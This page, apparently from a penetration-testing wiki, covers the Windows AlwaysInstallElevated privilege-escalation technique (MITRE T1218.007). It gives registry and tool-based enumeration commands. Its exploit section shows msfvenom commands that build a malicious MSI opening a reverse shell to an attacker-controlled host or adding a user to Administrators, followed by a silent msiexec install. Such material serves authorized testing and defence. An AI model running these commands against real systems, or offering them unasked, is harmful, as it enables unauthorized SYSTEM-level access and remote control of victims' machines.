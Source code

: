 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```



# AlwaysInstallElevated 

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systemis the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate - Windows" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Enumerate - UNIX-like" %}
If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys. [Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.
```bash
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`  

Generate a malicious MSI
```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec
```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
